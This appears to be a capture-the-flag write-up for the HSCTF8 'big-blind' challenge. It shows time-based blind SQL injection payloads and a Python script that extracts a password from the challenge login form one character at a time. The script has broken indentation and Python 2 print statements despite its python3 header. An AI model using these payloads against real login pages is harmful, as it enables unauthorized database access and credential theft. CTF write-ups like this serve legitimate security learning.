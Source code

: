 # HSCTF8 - big-blind

- Write-Up Author: Wendy \[[MOCTF](https://www.facebook.com/MOCSCTF)\]

- Flag:**flag{any_info_is_good_info}**
## **Question:**
>big-blind

![img](./img/1.png)

## Write up:

The website is simple and just a login page. When you input some characters like ', it return 500 Internal Server Error. It's SQL injection challenge. 
![img](./img/2.png)


First, I use the comment symbol and time-based SQL injection payload to discover the DB table and password length.
```
admin' union select 1,2 from users #

admin' union select 1,2 from users where user='' #

admin' union select 1,2 from users where pass='' #

admin' and IF(1=(SELECT 1 FROM users WHERE Length(pass) = 27),sleep(10),0) #

```

Since the password is long and hard to guess manually. I wrote a script to guess the whole password. Finally, we see the flag is the password.

```
#!/usr/bin/env python3
import requests
import sys

def blind(query):
    url = "https://big-blind.hsc.tf/"
    response = requests.post(url, data={"user":"" +query+ ",sleep(5),0) #","pass":""})
    
    if(response.elapsed.total_seconds()>3):
    print query
    return 'Found'

    return response

keyspace = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!@#$^&*()-=+'

query_left_side = "admin' and IF(1=(SELECT 1 FROM users WHERE pass LIKE '"
flag = ""
while True:
    for x in range(1,28):
        print x
        for k in keyspace:
        # query = admin' and IF(1=(SELECT 1 FROM users WHERE pass LIKE 'flag%'),sleep(10),0) #
        query = query_left_side + flag + k + "%')"
        response = blind(query)

        if response == 'Found':
            flag += k
            break

        if k == '+':
            flag += '_'

```

![img](./img/3.png)

>flag{any_info_is_good_info}
